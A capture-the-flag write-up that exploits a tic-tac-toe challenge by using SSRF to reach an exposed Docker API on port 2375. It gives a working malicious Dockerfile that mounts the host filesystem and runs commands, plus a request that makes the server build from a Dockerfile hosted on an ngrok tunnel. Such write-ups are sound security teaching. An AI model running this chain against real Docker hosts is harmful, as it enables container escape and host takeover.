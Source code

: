 - According to the docker file,Docker api is exposed on port `2375` which we can exploited to create containers,start containers,execute command and for malicious actions.We will be interacting with this internal url `localhost:2375` to load endpoints to buld a container,mount the host filesystem in it and execute commands on the container.With the aid of the `action` json key,we can make `get` and `post` requests to send data to the internal service.Mounting the host filesystem in the malicious container will allow us escape to the host filesystem.

-------------------

### Exploitation-:

------------------

- I created a malicious dockerfile to create a container and set the host filesystem to be mounted to point `/flag` in the malicious container.I got the idea of the script from [m0z](https://m0z.ie/research/2025-01-27-Developing-a-Docker-1-Click-RCE-chain-for-fun/).

```docker
RUN apk add --no-cache curl jq

RUN curl -X POST -H "Content-Type: application/json" -d '{"image": "alpine","Tty":true,"OpenStdin":true,"AutoRemove":true,"HostConfig":{"NetworkMode":"host","Binds":["/:/flag"]}}' http://localhost:2375/containers/create?name=shell
RUN curl -X POST http://localhost:2375/containers/shell/start
RUN exec_id=$(curl -s -X POST -H "Content-Type: application/json" -d '{"AttachStdin":false,"AttachStdout":true,"AttachStderr":true, "Tty":false, "Cmd":["mkdir", "/mnt/tmp/pwned"]}' http://localhost:2375/containers/shell/exec | jq -r .Id) && curl -X POST "http://localhost:2375/exec/$exec_id/start" -H "Content-Type: application/json" -d '{"Detach": false, "Tty": false}'
```

- Then, I made it accesible on the internet by tunnelling with ngrok.

![image](https://github.com/user-attachments/assets/7d925138-8ee4-431d-8bd1-7829d118d7e1)

- As explained in this [article](https://m0z.ie/research/2025-01-27-Developing-a-Docker-1-Click-RCE-chain-for-fun/) by M0z,an attacker can exploit dockerapi to build docker containers based  on dockerfiles hosted on the internet.It  might take time but it is building on the server.This can carried out with the `/build` endpoint.

```bash
❯ curl https://tic-tac-toe-8f5a953dc460f141.ctf.pearlctf.in/ -H "Content-Type: application/json" -d '{"api":{"http://localhost:8000/<game_action>":"http://localhost:2375/build?remote=http://4.tcp.eu.ngrok.io:12053/Dockerfile&networkmode=host"},"state":["X","X","X","X","X","X","X","X","X"],"action":"post"}'
{"body":""}
```

![image](https://github.com/user-attachments/assets/9f3ef135-7e14-4ac7-8fe2-5e5a7500317f)

- Them,we can execute commands on the container with `exec` endpoint.I grabbed the container's id from `/containers/json` endpoint which shows containers running on the server.

![image](https://github.com/user-attachments/assets/1312d564-d464-4f6c-baa6-5851f5ea6a43)

- I tried to read the flag at `/flag/flag/flag.txt`.To trigger a shell command on docker, an `exec` id has to be created which will be passed to the `/exec/[id]/start` endpoint to trigger the shell command.
